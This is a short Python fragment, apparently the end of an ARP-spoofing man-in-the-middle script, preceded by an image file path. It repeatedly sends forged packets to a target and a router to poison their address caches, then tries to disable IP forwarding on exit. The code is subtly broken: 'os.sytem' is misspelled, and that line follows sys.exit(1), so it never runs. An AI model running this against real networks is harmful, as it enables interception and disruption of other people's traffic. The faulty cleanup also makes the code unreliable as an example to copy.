 ```python{numberLines: true}
try:
    while True:
        sendp([target_packet, router_packet], verbose=0)
        # Sleep for 1 second between beacons
        time.sleep(1)
except KeyboardInterrupt:
    sys.exit(1)
os.sytem("sysctl -w net.ipv4.ip_forward=0")
```
